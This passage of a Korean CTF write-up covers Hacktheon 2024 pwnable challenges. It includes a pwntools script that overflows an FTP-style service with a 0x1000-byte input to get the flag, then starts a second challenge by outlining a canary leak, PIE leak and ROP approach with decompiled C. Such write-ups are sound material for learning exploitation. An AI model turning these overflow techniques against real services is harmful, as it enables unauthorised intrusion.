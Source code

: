 위와같이 flag를 open하는 것을 확인할 수 있습니다!

### exploit
```python
from pwn import *

#p = remote('13.125.107.131', 5000, level='debug')
p = remote('0', 21, level='debug')

p.sendline('USER anonymous')
pause()
p.sendline(b'A'*0x1000)

p.interactive()
```

분석에는 시간이 좀 걸렸지만, 실제로 바이너리에 0x1000 이상 크기의 버퍼를 입력하게 되면 `flag`를 획득할 수 있는 간단한 문제였습니다.

## 2. Pwnable - Intelitigation

해당 문제에서 nc로 접속하면 Base64형식을 복호화해주면 바이너리를 획득할 수 있고, 해당 바이너리를 exploit하는 방식이다.

nc 접속해서 바이너리를 받아올 때 매번 data 영역의 idx와 canary 값들이 바뀐다. data영역의 주소는 그대로다.
![](/assets/img/hacktheon2024/go3.png)

.init_array 섹션에 아래 함수들이 존재하는데, 랜덤한 카나리 값과 idx의 canary 값을 가져오고, 세팅해준다.
```c
__int64 sub_12D9()
{
  return canary[idx];
}
```

sub_12D9에서 받은 카나리 값을 fs:0x28의 canary에 직접 써서 값을 변경해주는 부분이다.
```c
unsigned __int64 __fastcall sub_12BD(unsigned __int64 a1)
{
  unsigned __int64 result; // rax

  result = a1;
  __writefsqword(0x28u, a1);
  return result;
}
```

main 로직에서는 Buffer Overflow가 발생해 pie주소 leak이 가능했고, canary값을 알고 있으므로 ROP를 수행할 수 있다.
